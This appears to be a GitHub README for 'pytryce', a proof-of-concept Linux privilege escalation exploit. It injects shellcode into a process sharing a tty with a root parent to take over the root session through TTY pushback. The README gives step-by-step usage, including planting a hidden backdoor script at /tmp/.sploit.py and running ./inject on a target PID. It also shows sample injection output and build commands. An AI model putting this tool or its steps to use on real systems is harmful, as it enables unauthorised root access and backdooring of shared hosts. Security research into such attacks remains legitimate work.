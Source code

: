 
## Overview

This code allows exploiting a writing to a parent process sharing the same tty from a child. This is especially interesting when the child process is executing a less privileged user we control and the parent process is root.

The attack is described in this blog article: https://www.errno.fr/TTYPushback.html. The difference here, is that instead of backdooring a user, we directly attach to an already existing session.

This Proof Of Concept is not the cleanest one but has the advantage to work properly. It should be noted that if the targeted process is being actively used, the exploit may crash it.

## Usage

First, the backdoor `backdoor.py` must be placed on the victim system, for example in `/tmp/.sploit.py`. The given shellcode executes the script at this given location. Then:

```
./inject PID
```

For example:

```
$ ps auxwf
root      823863  0.0  0.1  15136  9104 ?        Ss   20:52   0:00  \_ sshd: root@pts/7
root      823872  0.0  0.0  11036  6752 pts/7    Ss   20:52   0:00      \_ -bash
root      826163  0.0  0.0  10320  4920 pts/7    S    21:45   0:00          \_ su - user
user      826164  0.0  0.0  11264  6968 pts/7    S+   21:45   0:00              \_ -bash
$ ./inject 826164
[+] attaching to proccess (id: 826164)
[+] mmaping shellcode and stack
[+] mem_addr: 0x7f4a3aed6000
[+] stack_addr: 0x7f4a3aed6000
[+] copying shellcode (1024 bytes)
[+] setting up child's stack
[+] starting new thead
[+] thread id: 826762
[+] setting rip in thread
[+] detaching main process
[+] detaching from thread
[+] done
```

## Building

```
git clone https://github.com/laxa/pytryce.git
cd pytryce
make
```

## Author

This project has code from the following repositories:
* https://github.com/Srakai/Adun
* https://github.com/voydstack/shellcoding

## License

This project is licensed under the GNU General Public License v3.0 - see the LICENSE.md file for details

